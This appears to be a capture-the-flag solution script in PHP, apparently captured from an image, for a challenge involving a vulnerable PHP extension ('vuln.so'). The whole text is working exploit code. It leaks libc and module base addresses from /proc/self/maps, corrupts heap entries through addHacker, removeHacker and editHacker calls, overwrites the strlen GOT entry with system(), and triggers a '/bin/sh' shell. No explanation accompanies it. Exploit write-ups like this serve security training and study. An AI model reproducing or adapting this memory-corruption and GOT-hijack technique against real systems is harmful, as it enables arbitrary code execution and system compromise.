 ```php

function p64($addr){
    $addr = dechex($addr);
    $addr = hex2bin($addr);
    $addr = strrev($addr);
    $addr = str_pad($addr, 8, "\x00");
    return $addr;
}

function leakaddr($buffer){
    global $libc, $mbase;
    $p = '/([0-9a-f].)\-[0-9a-f]+ .* \/usr\/lib\/x86_64-linux-gnu\/libc.so.6/';
    $p1 = '/([0-9a-f]+)\-[0-9a-f]+ .* \/home\/l1qu1d\/pwn\/chall\/php_pwn\/pwnshelldock\/stuff\/vuln.so/';
    preg_match_all($p, $buffer, $libc);
    preg_match_all($p1, $buffer, $mbase);
    return "";
}

ob_start("leakaddr");
include("/proc/self/maps");
$buffer = ob_get_contents();
ob_end_flush();
leakaddr($buffer);
$vuln_base = hexdec($mbase[1][0]);
$libc_base = $vuln_base + 0x31a3000;
$strlen_got = $vuln_base + 0x4020;
$system_addr = $libc_base + 0x58750;
echo "Libc base   => " . dechex($libc_base) . "\n";
echo "game base   => " . dechex($vuln_base) . "\n";
echo "strlen got  => " . dechex($strlen_got) . "\n";
echo "system addr => " . dechex($system_addr) . "\n";


addHacker("aaaaaaaaaaaaaaaaaaaaaaaa", "bbbbbbb");
addHacker("cccccccccccccccccccccccc", "ddddddd");
addHacker("cccccccccccccccccccccccc", "ddddddd");
addHacker("/bin/sh", "/bin/sh");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");
addHacker("cccccccc", "ddddddd");

removeHacker(13);
addHacker("aaaaaaaaaaaaaaaaaaaaaaaa", "hhhhhhh");
removeHacker(12);
addHacker("aaaaaaaaaaaaaaaaaaaaaaaa", "ffffffff");
editHacker(13, p64(0x18) . "hhhhhhhh" . p64($strlen_got));
editHacker(14, p64($system_addr));
displayHacker(3);

?>

```
